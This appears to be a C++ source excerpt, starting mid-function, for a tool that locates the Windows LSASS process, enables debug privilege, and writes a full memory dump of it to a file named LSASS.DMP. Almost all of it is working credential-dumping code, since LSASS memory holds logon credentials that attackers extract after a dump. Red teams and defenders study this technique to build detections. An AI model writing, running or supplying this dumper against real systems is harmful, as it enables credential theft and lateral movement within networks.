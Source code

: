 ```cpp
	int pid = 0;
	PROCESSENTRY32 proc = {};
	proc.dwSize = sizeof(PROCESSENTRY32);

	HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);

	bool bProc = Process32First(snapshot, &proc);

	while (bProc)
	{
		if (strcmp(procname, proc.szExeFile) == 0)
		{
			pid = proc.th32ProcessID;
			break;
		}
		bProc = Process32Next(snapshot, &proc);
	}
	return pid;
}

int main(int argc, char** argv) 
{
	// Find LSASS PID
	printf("[+] Searching for LSASS PID\n");
	int pid = FindPID("lsass.exe");
	if (pid == 0) {
		printf("[-] Could not find LSASS PID\n");
		return 0;
	}
	printf("[+] LSASS PID: %i\n", pid);
	
	// Make sure we have SeDebugPrivilege enabled
	if (!SetDebugPrivilege())
		return 0;

	// Open handle to LSASS
	HANDLE hProc = OpenProcess(PROCESS_VM_READ | PROCESS_QUERY_INFORMATION, false, pid);
	if (hProc == NULL) {
		printf("[-] Could not open handle to LSASS process\n");
		return 0;
	}

	// Create file to hold the dump data
	HANDLE hFile = CreateFile("LSASS.DMP", GENERIC_ALL, FILE_SHARE_WRITE, NULL, CREATE_ALWAYS, FILE_ATTRIBUTE_NORMAL, NULL);
	
	// Do full memory dump of lsass and save it to the file we created
	BOOL success = MiniDumpWriteDump(hProc, pid, hFile, MiniDumpWithFullMemory, NULL, NULL, NULL);
	if (success)
		printf("[+] Successfully dumped LSASS!\n");
	else
		printf("[-] Could not dump LSASS\n[-] Error Code: %i\n", GetLastError());
}
```

